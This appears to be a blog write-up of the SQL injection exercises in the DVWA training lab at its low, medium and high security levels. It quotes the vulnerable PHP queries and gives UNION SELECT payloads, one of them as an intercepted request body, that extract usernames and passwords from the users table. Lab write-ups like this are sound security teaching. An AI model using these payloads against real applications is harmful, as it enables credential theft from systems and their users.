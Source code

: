 +++
date = '2025-10-20T19:48:35+07:00'
draft = false
title = 'DVWA SQL Injection Low/Medium/High Security'
tags = ['DVWA']
description = 'Using vulnerability in SQL queries to get access to restricted data.'

[cover]
  image = '/images/posts/dvwa-cover.png'
  alt = 'DVWA SQL Injection'
  caption = 'DVWA SQL Injection'
  relative = false
+++

## Description

**Vulnerability:** SQL Injection  
**Impact:** Using vulnerability in SQL queries to get access to restricted data.

---

## LOW Security Level

The source code doesn't have any check on the input `id` it just pass the value to the query. We can easily use this payload to get tables list:

```
' UNION SELECT user, password FROM users #
```

Source code doesn't check anything:

```php
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
```

Result:
![Guide image](/images/posts/dvwa-sql-injection-5.png)

## MEDIUM Security Level

The source code with the UI only enable us to choose `id` through a SELECT:

```php
// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
```

Besides this, there aren't any checks so we can easily intercept the request with Burp Suite and change the value of `id` with what we want.

However notice the difference the query uses number to access `id` therefore we can use this payload in Burp Suite:

```
id=0 UNION SELECT user, password FROM users%23&Submit=Submit
```

![Guide image](/images/posts/dvwa-sql-injection-2.png)

Result:
![Guide image](/images/posts/dvwa-sql-injection-1.png)

## HIGH Security Level

This is the updated `$query` of HIGH Security Level still doesn't have any checks

```php
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
```

The only difference is instead of use `id` param or body value it use session:

```php
// Get input
$id = $_SESSION[ 'id' ];
```

Click `Click here to change your ID.` it will popup a change id page. We can use this payload to get all passwords of users:

```
' UNION SELECT user, password FROM users #
```

![Guide image](/images/posts/dvwa-sql-injection-3.png)

The `#` will help us make a comment to disable `LIMIT 1` and get all records in `users` table. Result:

![Guide image](/images/posts/dvwa-sql-injection-4.png)

## Resources

-   https://en.wikipedia.org/wiki/SQL_injection
-   https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
-   https://owasp.org/www-community/attacks/SQL_Injection
-   https://bobby-tables.com/
